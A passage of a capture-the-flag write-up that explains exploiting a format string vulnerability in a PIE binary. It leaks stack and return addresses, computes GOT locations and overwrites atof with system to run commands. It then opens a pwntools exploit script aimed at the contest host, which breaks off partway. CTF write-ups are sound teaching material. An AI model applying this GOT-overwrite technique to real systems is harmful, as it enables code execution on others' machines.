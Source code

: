 ```c
    fflush(stdout);
  }
  printf("You safely travel to coordinates %s\n", &s);
  result = fflush(stdout);
  if ( *MK_FP(__GS__, 20) != v5 )
    terminate_proc();
  return result;
}
```

So it will let us input our coordinates, and check the coordinates' value. If the coordinates are **(51.492137, -0.192878)**, it will trigger the **format string vulnerability**. After leaking some messages, we found that we're able to leak the **stack address**. This is very important, since the binary has the **PIE** & **Partial RELRO** protection, we don't know where the text's base address is, neither functions' GOT address. But if we can leak the stack address, we can calculate the location that stored the return address, **and leak the return address to calculate the text's base address.** After we have the text's base address, we can **calculate the functions' GOT address, and leak the function pointer.** After we got all the memory address, we can use the format string vulnerability to overwrite `atof`'s GOT entry into `system`'s address, and execute our command by entering our commands as the coordinates.

So to sum up:
1. Leak the stack address and calculate the return address' location
2. Leak the return address and calculate the text's base address
3. Calculate `atof`'s GOT and leak the function pointer
4. Calculate `system`'s address and overwrite `atof`'s GOT entry
5. Input coordinates **"[command], [garbage]"** to execute our commands
    

Here's the exploit. The part that beating the game was done by **yench**, while the rest was done by me.

```python
from pwn import *
import struct
import time
import binascii
import hashlib
import time
import string

ip = "wwtw_c3722e23150e1d5abbc1c248d99d718d.quals.shallweplayaga.me"
port = 2606

def getMap(s):
	MAP=s
	MAP=MAP[:len(MAP)-24]
	print MAP
	MAP=MAP[len(MAP)-479:]
	sql=MAP.split('\n')
	i=0
	res = [[] for x in range(20)] 
	for l in sql:
		l = l[3:]
		res[i]=l
		i+=1 
	return res

def getChar(c,MAP):
	x=0
	y=0
	for i in MAP:
		for j in i:
			for a in c:
				if j == a:
```